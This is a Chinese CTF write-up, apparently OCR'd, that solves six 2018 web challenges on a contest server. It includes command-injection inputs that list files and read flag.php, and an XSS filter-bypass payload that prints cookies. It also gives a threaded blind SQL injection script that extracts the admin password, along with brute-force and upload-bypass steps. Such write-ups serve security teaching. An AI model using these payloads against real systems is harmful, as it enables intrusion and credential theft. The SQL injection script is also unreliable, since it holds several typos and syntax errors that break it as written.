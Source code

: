 # Web

&emsp;&emsp;2018 年的 Web 题知识点都比较基础，基本每题都只涉及到一个知识点。

## 签到

**考察要点：**浏览器开发者工具（F12），JSFuck 编码

1. 打开题目发现是一个网页，有一个输入框<center>![Web_1](img/Web_1.png)</center>

2. 任意输入字符返回“好像不对”，做 Web 题目遇事不决先 F12 看一下，发现源代码里有一串 JSFuck 代码。
3. 利用在线工具 JSFuck 解码工具进行解码，或者复制 JSFuck 代码到浏览器开发者工具 console 运行，即可得到 flag。<center>![Web_2](img/Web_2.png)</center>

## 计算器

**考察要点：**写脚本能力

1. 打开后页面如下图<center>![Web_3](img/Web_3.png)</center>
2. 要求简单来说就是回答 20 道数学题目，每道最多 3s,最少 1s，多次刷新后发现题目的长度，运算方法均不定，想到靠脚本计算，F12 审查后发现，题目的内容被分在多个元素中，如果使用正则匹配的话匹配难度较大，考虑用 webdriver，按照 xpath 来查找元素，对其进行整合，计算与提交，脚本内容如下

```python
import requests
import time
import re
from selenium import webdriver
driver=webdriver.Firefox()
driver.get("http://120.78.66.77:81")
for j in range(1,21):
    string=''
    i=1
    while driver.find_element_by_xpath("//body/form[1]/div[{}]".format(i)).text!='=':
        string+=driver.find_element_by_xpath("//body/form[1]/div[{}]".format(i)).text
        i+=1
    answer=eval(string)
    driver.find_element_by_xpath("//body/form[1]/input[1]").send_keys(answer)
    time.sleep(1)
    driver.find_element_by_xpath("//body/form[1]/input[2]").click()
```

## Cat?

**考查要点：**远程代码执行

1. 打开链接，F12 后看到注释中有提示<center>![Web_4](img/Web_4.png)</center>
2. 根据提示打开：http://120.78.66.77:87/exec.php?view_source <center>![Web_5](img/Web_5.png)</center>
3. 看到源码后分析一下发现输入是限制了长度不能超过 21 的，并且必须输入 ip 格式，然后想到命令行注入：

```shell
command1 && command2   #先执行 command1 后执行 command2
command1 | command2    #只执行 command2
command1 & command2    #先执行 command2 后执行 command1
```

4. 尝试输入： 8.8.8.8|ls,结果如下，所以 flag 应该是在 flag.php 中的<center>![Web_6](img/Web_6.png)</center>
5. 再尝试输入：8.8.8.8|cat flag.php 结果没有任何返回，我们抓包看一下，在 repeater 中看到返回了 flag。<center>![Web_7](img/Web_7.png)</center>

## 简单的 XSS

**考查要点：**简单 XSS Payload 构造

1. Hint：为啥不看看 cookie 呢
2. Hint：Markdown 兼容大多数 html 语法的
3. 反射型 xss，就是浏览器输入->后台处理->返回浏览器显示，听说 markdown 兼容大多数 html 语法，题目是 xss 那就试试咯，使用< script>alert(1);< /script>验证一下 xss 漏洞,发现回显是<>alert(1);
4. script 消失了。说明进了后台，并且被转换成了 null。双持 script 绕过。 < scscriptript> 打印 cookie
5. 构造 Payload: < scscriptript>document.write(document.cookie)< /scrscriptipt>得到 flag

## 一道入门的代码审计

**考查要点：**PHP 代码审计

1. 利用 php 弱类型语言的判断漏洞，用哈希值开头是 0e 的构造 payload;
2. 获取含有 flag 链接的网页，点进去发现没有访问权限。尝试各种方法更改 http 头部内容，添加 refer,更改 cookie……Burpsuit 抓包更改 permission 为 nqzva(rot13 加密后的 admin)
3. Burpsuit 可以看到返回了文件的链接，直接访问链接并没有东西。再将请求放 在 burpsuite 查看，返回 too slow。考虑用脚本、burpsuit 不断发包请求。
4. Burpsuite——>Send to Intruder——>Payload——>Generate 100 payloads ——>Start attack;
5. 脚本如下

```python
import requests
r1 = requests.Session()
while(1):
    r2 = r1.get("http://120.78.66.77:85/u/18f6dceefd3014a4b73e4b131776afa248ea810c/flag")
    print(r2.text)
```

然后可以得到结果如下图所示：<center>![Web_8](img/Web_8.png)</center>

## 登录一下

**考查要点：**SQL 注入

1. 打开题目地址，发现是个登录界面，先走流程，用代碗学姐最新换的 AWVS10.5 扫一扫这个网站，看看有没有源码泄漏或者其他可以扫到的漏洞，一般来讲用 AWVS 可以扫到一些出题人故意留下的线索，（如 git 泄漏，svn 泄漏或者.bak 泄漏等等），扫描出了几个列目录的漏洞但是并没有什么用。<center>![Web_9](img/Web_9.png)</center>
2. 接着用 Burp 抓包，看看服务器给我们返回的包里面有什么线索（burp 的使用教程 http://www.uml.org.cn/safe/201406135.asp）在浏览器中设置成 burp 使用的代理，然后访问登录页面，发现了提示。顺便一提，尽管这道题中出题人把提示藏在了页面源码中，可以直接在浏览器里看到，大师其他题给的提示有可能在 cookies 甚至服务器自定义的返回头里面，而这些东西都能在 burp 的抓包中看到，所以我们最好还是用 burp 来找 hint 提示告诉了我们数据库的一些信息，结合题目可以猜到是要我们通过 SQL 注入来获取密码。<center>![Web_10](img/Web_10.png)</center>
3. 测试这道题对上传数据的限制，我们首先发现如果我们提交的数据中处出现了关键字，服务器就会返回 naive。因此我们可以通过服务器是否返回 naïve 来测试一个关键字是否被禁止，经过手动测试（其实最好自己准备一份字典用 burp 批量测试），我们可以发现被禁止的关键字有：union select from where and 以及空格和空格的各类替代（%0a %0b /\*\*/之类） substr 还有/\*。各类绕过手段均无效，如大小写替换，URL 编码<center>![Web_11](img/Web_11.png)</center>
4. 看似无解的题目在有 hint 的情况下我们仍旧能够构造语句来绕过它。在我们发动 SQL 注入攻击前，我们要首先判断这个注入点的类型，一般的注入有 UNION 注入，报错注入，布尔注入，以及时间差注入（类似 DNS 注入的黑科技先不管）。 这道题把 Union 关键字给限制了，还不报错.因此我们首先考虑布尔注入。布尔（BOOL) 这个听起來很奇怪，其实说白了就是构造判断语句让服务在语句结果为真或者为假的时候 返冋不同结果，据此来获取信息。 可以发现如果用户名输入 admin，密码乱输，会提示我们 password error,但如果是其它用 户名，它就会提示 no such user。这表明可能可以在用户名那里下手注入。 测试发现用户名为 admin’&&(1)# 为 password error，为 admin’&&(0)#时为 no such user,布尔注入实锤！这个&&的意思是和，可以代替 and，而#是注释符号用于注释后面的语句。 我们可以假定这个登录语句是这样的<code>select pwd from table*name where uname=*’你输入的’</code>把刚刚输入的代进去就是<code>select pwd from table_name where uname=’adminl&&(1)#'</code>,如果括号内的内容为真（非 0)就能够返回结果（password error)，不能的话就无法返回 (no such user) 现在开始尝试把刚才括号内的内容换成 length(pwd),这个 length 函数可以取一个字符串的长度,整个语句就成了<code>select pwd from table_name where uname='adminl&&(length(pwd) )#’</code>返回的是 password error! 这说明 pwd 真的存在，而且可访问，于是我们可以加上各类判断语句来判断 pwd 的长度 于是就疯狂测试 在测试的时候，方便起见.可以把抓到的登录包放在 Burp 的 repeater 中，但是一定要把& 换成％26,否则服务器会把&后面的当作另一个上传的参数。发现这个密码长度为 30 (妈的真够长） 我们现在需要考虑如何跑出数据丫，正常的布尔注入需要用 substr 函数一个一个地取数据 ，但是我们的 substr 被禁了怎么办呢？我们还有 left 和 right 函数可以取。脚本如下：

```python
import requests
from concurrent.futures import ThreadPoolExecutor
from concurrent import futures
url="http://120.78.66.77:84/fb69d7b4467e33c71b0153e62f7e2bf0/"
head={"Content-Type":"application/x-www-form-unlencoded"} #不加上服务器不认
data="uname=admin'%26%26ascii(right(left(pwd,curlen),1))-curascii#&pwd="
pwd='_'*31
def Check(curlen):
    global pwd
    data="uname=admin'%26%26ascii(right(left(pod,curlen),1))BOOL#&pwd=".replace("curlen",str(curlen))#先替换位数
    start=0
    end=255
    while start<=end:#此处二分
        mid=(start+end)//2
        page=requests.post(url=url,headers=head,data=data,replace("BOOL","="+str(mid))).text
        if "error" in page:
            pwd=pwd[:curlen]+chr(mid)+pwd[curlen+1:]
            print(pwd[1:])
            return chr(mid)
        page=requests.post(url=url,headers=head,data=data,replace("BOOL","<"+str(mid))).text
        if "error" in page:
            end=mid-1
        else
            start=mid+1

with ThreadPoolExecutor(max_workders=20) as executor:
    futurn_list=list()
    for curlen in range(1,31):
        future=executor.submit(Check,curlen)
        future_list.appent(future)
    print("密码是"+pwd[1:])
```

## 一道船细的外部题目

**考查要点：**Linux 备份文件，账号密码爆破，PHP 文件后缀名绕过

1. 先 F12,看到提示 info.php<center>![Web_12](img/Web_12.png)</center>
2. 发现 info.php 被删除，看看备份文件.bak
3. 查看文件，指明了爆破的方式和账户&密码集合，只是有点大，脚本生成爆破文件，配置到 burp 里，静静等待………大概几十分钟吧
4. 登录后让上传 PHP 文件，由源码发现其实只是上传了文件名，但是普通的 php 文件无法上传，这时想到了 PHP 的一种别名：phps,一种特殊的 php 文件，得到 flag
